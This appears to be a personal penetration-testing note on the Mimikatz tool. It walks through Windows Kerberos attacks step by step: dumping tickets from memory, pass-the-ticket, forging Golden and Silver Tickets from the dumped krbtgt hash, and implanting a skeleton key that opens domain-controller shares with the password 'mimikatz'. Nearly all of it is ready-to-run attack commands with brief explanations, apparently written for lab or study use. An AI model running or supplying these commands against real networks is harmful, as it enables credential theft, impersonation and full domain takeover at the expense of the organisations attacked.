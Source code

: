 # Mimikatz
Github: https://github.com/gentilkiwi/mimikatz
WIki: https://github.com/gentilkiwi/mimikatz/wiki

Can extract plaintexts passwords, hash, PIN code and #Kerberos tickets from memory in #Windows systems.

Can perform the following attacks:
- Pass-the-Hash
- Pass-the-Ticket
- *Golden Tickets* / *Silver Tickets*


## Pass-the-Ticket
Run Mimikatz to start a session!

### Dump Tickets
*this can also be done with Rudeus*
1. Run `privilege::debug`, and ensure output is `'20' OK` indicating administrator privileges.
2. `sekurlsa::tickets/export` - will export all of the **.kirbi** tickets in the *current* directory. 

### Pass it!
1. `kerberos::ptt <ticket>` - run inside mimikatz w/ the ticket you harvested from earlier. It will cache and impersonate the given tacket. 
2. `klist`- verify successful impersonation with ticket by listing cached tickets
3. If successful you should have access to the related shares, which you can try and access, for example: `\\192.168.128\admin$`

*the above is only a PoC and is not a definitive guide in any shape or form*

## Golden/Silver Ticket Attacks
Attack to create Golden or Silver Tickets (see [[Kerberos#Golden Ticket Silver Ticket]])

**Creating & Using a Golden Ticket (Silver steps referenced)**
1. Ensure priv w/ `privilege::debug` == `Privilege '20' OK`
2. `lsadump::lsa /inject /name:krbtgt` - dump the **krbtgt** hash and SID needed for a Golden Ticket. 
	- To create **SILVER** ticket, change `/name:` to dump either hash of domain admin or a service account
3. `kerberos::golden /user:Administrator /domain:controller.local /sid:<SID> /krbtgt:<NTLM_HASH> /id:500`
	- Break down of command:
		- `kerberos::golden` - telling mimikatz we're doing a Golden ticket attack
		- `/user:Administrator` - we want a ticket for administrator
		- `/domain:controller.local` - the domain
		- `/sid:<SID>` - SID of **krbtgt**
		- `/krbtgt:<NTLM_HAHS>` - NTLM hash of **krbtgt**
		- `/id:500` - id for a domain admin
	- To create **SILVER** ticket, put a service NTLM hash into `/krbtgt:` slot, a SID of a service into `/sid:`, and change the `/id:` to `1103`
4. `misc::cmd` - will open a new elevated command prompt with the given ticket
	- Access machines and do what you want
	- Access will depend on the privileges of the user that you decided to take the ticket from
		- IF that user was **krbtgt** you have access to **ENTIRE** network, i.e. **Golden** Ticket. 
		- Anything else like a domain admin, will only provide access to what they have access to, hence **Silver** Ticket

## Backdoors and Skeleton Keys 
[[Kerberos#Skeleton Keys Backdoors]]
**Default Hash**: _60BA4FCADC466C7A033C178194C03DF6_
Which makes password: **mimikatz**

**DOES NOT PERSIST**
Implants a skeleton key in domain forest memory abusing AS-REQ validation of encrypted timestamps. Living in memory it will not persist in reboot. However it can be scripted or persisted using other tools/techniques. 

Obviously start by running `mimikatz`
1. Check for necessary priv: `privilege::debug` == `Privilege '20' OK`
2. Install skeleton key: `misc::skeleton`
3. Access the forest: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`
	1. Share is now accessible without Administrator password, just default credential `mimikatz`

Add. Example:
`dir\\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1


